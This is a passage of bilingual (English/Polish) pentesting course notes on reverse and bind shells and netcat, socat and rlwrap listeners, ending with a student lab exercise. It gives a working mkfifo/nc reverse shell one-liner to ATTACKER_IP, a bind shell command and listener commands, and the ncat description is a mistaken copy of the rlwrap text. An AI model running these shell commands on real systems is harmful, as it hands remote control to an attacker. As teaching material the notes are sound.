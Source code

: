 This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will  
expose the shell through the network.  
For more see: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
Example:
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

## Bind shell
A bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs,  
it exposes the shell session so the attacker can execute commands remotely.  
This method can be used when the compromised target does not allow outgoing connections  

Gdy cel nasłuchuje (serwer), a Pentester inicjuje połączenie (klient), technikę tę nazywamy `Bind Shell`.

```
Cel                                       Pentester
Nasłuchuje (serwer),        <----------   Łączy się (klient)
uruchamia powłokę                         zdalnie wykonuje komendy
```

In this case, the attacker can use a command like the one below on the target machine.
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

## Listeners
`rlwrap`: command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener
`rlwrap nc -lvnp 443` This wraps nc with rlwrap, allowing the use of features like arrow keys and history for better interaction.

`nc`: netcat
`ncat`: This wraps nc with rlwrap, allowing the use of features like arrow keys and history for better interaction.
example: `ncat -ssl -lvnp 4444`

`socat`: It is a utility that allows you to create a socket connection between two data sources, in this case, two different hosts.
Example: `socat -d -d TCP-LISTEN:443 STDOUT` 
The command above used the -d option to enable verbose output; using it again (-d -d) will increase the verbosity of the commands.  
The TCP-LISTEN:443 option creates a TCP listener on port 443, establishing a server socket for incoming connections.  
Finally, the STDOUT option directs any incoming data to the terminal.

### Ćwiczenia studia
`Netcat (Reverse TCP)`
Celem zadania jest nawiązanie połączenia TCP (za pomocą nc) 
pomiędzy serwerem 192.168.100.6 a maszyną studenta podłączoną do VPN.  
Student powinien nasłuchiwać na porcie 10001/tcp, a serwer nawiązać połączenie do studenta.
